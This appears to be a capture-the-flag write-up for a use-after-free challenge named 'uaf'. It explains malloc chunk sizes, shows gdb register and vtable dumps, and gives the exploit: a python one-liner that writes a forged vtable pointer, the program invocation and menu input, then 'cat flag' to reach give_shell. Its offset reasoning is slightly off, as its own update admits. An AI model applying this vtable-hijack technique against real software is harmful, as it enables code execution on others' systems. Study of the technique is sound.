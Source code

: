 How does malloc do its job(Form Here)?

    For large (>= 512 bytes) requests, it is a pure best-fit allocator, with ties normally decided via FIFO (i.e. least recently used).
    For small (<= 64 bytes by default) requests, it is a caching allocator, that maintains pools of quickly recycled chunks.
    In between, and for combinations of large and small requests, it does the best it can trying to meet both goals at once.
    For very large requests (>= 128KB by default), it relies on system memory mapping facilities, if supported.

In this code, we only need 24bit to save `*vtable,age`,`*name`.

First we break at 0x400f18 and run:
```
RAX: 0x603040 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>: push   rbp)
RBX: 0x603040 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>: push   rbp)
RCX: 0x7ffff7dd93c0 --> 0x0
RDX: 0x19
RSI: 0x7fffffffea20 --> 0x603028 --> 0x6b63614a ('Jack')
RDI: 0x7ffff7dd93c0 --> 0x0
RBP: 0x7fffffffea70 --> 0x0
RSP: 0x7fffffffea10 --> 0x7fffffffeb58 --> 0x7fffffffed86 ("/home/c/ctf/uaf")
RIP: 0x400f18 (<main+84>:   mov    QWORD PTR [rbp-0x38],rbx)
R8 : 0x0
R9 : 0x2
R10: 0x7fffffffe790 --> 0x0
R11: 0x7ffff7b91470 (<_ZNSs6assignERKSs>:   push   rbp)
R12: 0x7fffffffea20 --> 0x603028 --> 0x6b63614a ('Jack')
R13: 0x7fffffffeb50 --> 0x1
R14: 0x0
R15: 0x0
```
The vtable of Man is at 0x401570.x/3x 0x401570:
```
0x401570 <_ZTV3Man+16>: 0x000000000040117a  0x00000000004012d2
0x401580 <_ZTV5Human>:  0x0000000000000000
```
The `0x000000000040117a` is give_shell, and the `0x00000000004012d2` is introduce of Man.

So we will apply for space and write something to let the introduce be give_shell. When we call introduce, it will call `*vtable + x`. If `addr + 4 == *vtable + 0`(give_shell), the addr must equals `*vtable - 4` which is `0x401568`.

And the code will be:
```
python -c 'print ("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/ihcuaf
./uaf 8 /tmp/ihcuaf
3 2 2 2 2 2 2 2 2 2 2 2 2 2 2 2 2 2 1
cat flag
```
UPDATE:

Using 8 is not a correct way. It success only beacuse 24 is less than 32, apply for 8 will be given 32 too.
